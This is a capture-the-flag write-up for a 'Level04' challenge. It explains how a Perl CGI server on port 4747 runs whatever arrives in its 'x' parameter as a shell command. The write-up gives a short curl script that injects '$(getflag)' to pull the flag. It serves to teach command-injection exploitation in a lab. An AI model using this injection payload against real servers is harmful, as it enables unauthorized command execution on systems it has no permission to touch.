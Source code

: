 # Level04 Exploit

In this challenge, we have a Perl script named `level04.pl` that acts as a web server listening on port `4747`. This script utilizes the CGI module to handle requests and execute commands passed as a parameter named "x".

## Vulnerability Analysis

By examining the Perl script, we identify that it takes input from the "x" parameter and passes it to the `x` function, which subsequently executes the input as a command. This presents a significant security vulnerability, allowing us to execute arbitrary commands on the server.

## Exploit Procedure

To exploit this vulnerability and retrieve the flag, we can craft a request to the server with the desired command as the "x" parameter. Here's how we can accomplish this using `curl`:

```bash
# Send a request to the server with the command "getflag"
flag=$(curl 'http://'"$1:$2"'/?x=$(getflag)')

# Extract the flag from the response
flag=$(echo $flag | awk '{print $NF}')

# Print the flag to the terminal
echo "Password:"
echo $flag
```

This script sends a GET request to the server, specifying the command `$(getflag)` as the value for the "x" parameter. It then extracts the flag from the response and prints it to the terminal.

Ensure to replace `$1` and `$2` with the appropriate server IP address and port number respectively before executing the script.